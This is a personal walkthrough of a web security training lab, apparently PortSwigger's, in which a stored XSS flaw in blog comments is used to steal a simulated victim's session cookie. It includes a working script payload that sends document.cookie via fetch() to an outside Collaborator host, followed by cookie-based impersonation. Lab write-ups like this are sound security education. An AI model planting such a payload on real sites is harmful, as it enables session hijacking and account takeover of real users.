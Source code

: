 *This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.*

Input a test comment to see how the page will respond:
![[Screenshot 2024-05-17 at 9.10.26 AM.png]]
I tried the following payload to see if if exfiltrating the cookie was possible:
`<script>alert(document.cookie)</script>`
This was the result:
![[Screenshot 2024-05-17 at 9.24.38 AM.png]]
I then decided to use Burp's Collaborator to aid me in stealing a user's cookie. I had to store the XSS payload in the comment section, ensuring that once the comment was viewed by the victim, it will 
1. trigger the retrieval and display of the victim's cookie
2. trigger and out-of-band interaction with the Collaborator server to display to me the victim's cookie
I entered the following payload in the comment section:
```
<script>
fetch('https://8oxyne76m10vkx4gw2l20y93wu2mqfe4.oastify.com',{
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
I received the following:
![[Screenshot 2024-05-17 at 11.02.44 AM 2.png]]
I sent the request to login (using invalid credentials) and pasted both the `secret` and `session` cookies in, which solved the lab:
![[Screenshot 2024-05-17 at 11.06.52 AM.png]]
